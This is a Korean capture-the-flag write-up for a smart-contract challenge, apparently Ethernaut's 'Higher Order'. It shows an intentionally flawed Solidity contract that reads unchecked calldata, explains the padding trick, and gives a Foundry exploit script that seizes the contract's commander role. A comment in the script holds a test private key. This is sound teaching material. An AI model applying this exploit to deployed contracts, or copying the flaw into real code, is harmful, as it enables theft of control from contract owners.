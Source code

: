 # 지문

규칙이 깨지라고 존재하는 세상, 오직 교활하고 대담한 자만이 권력을 손에 쥘 수 있는 세상을 상상해보세요. 신비에 싸인 집단 **Higher Order**에 오신 걸 환영합니다. 이곳에는 보물이 숨겨져 있고, 한 명의 지휘관이 절대적인 권력을 휘두릅니다.

당신의 목표는 **Higher Order의 지휘관(Commander)** 이 되는 것입니다! 행운을 빕니다!

도움이 될 만한 것들:

* 때로는 calldata를 신뢰할 수 없습니다.
* 컴파일러는 끊임없이 진화하며 더 나은 우주선(spaceship)으로 발전하고 있습니다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

# 풀이 

calldata 구성을 생각해보면 아래와 같음.

`function selector` (4bytes) + `params` (`n`bytes)

근데 여기서 registerTreasury함수의 uint8 파라미터는 최대값이 255로 제한되지만, uint8 파라미터가 calldata layout상으로는 앞의 00 padding으로 32바이트가 된다는것을 주목해볼만함 

(여기서 중요한건 padding으로 끼워넣어지는 00은 다른값으로 바꿔도 문제가되지않음)

그 상태에서 calldataload(4)는 function selector 다음부터 32바이트를 가져오는 opcode.

그점을 유의해서 풀면됨.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function registerTreasury(uint8) external;
    function claimLeadership() external;
}
contract SolveScript is Script {
    address public target = 0x3fA4E6e03Fbd434A577387924aF39efd3b4b50F2;

    function setUp() public {}

    // forge script -vvvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        (bool res, bytes memory resData) = target.call(abi.encodePacked(ITarget.registerTreasury.selector, uint256(type(uint256).max)));
        require(res);
        ITarget(target).claimLeadership();
        vm.stopBroadcast();
    }
}

```


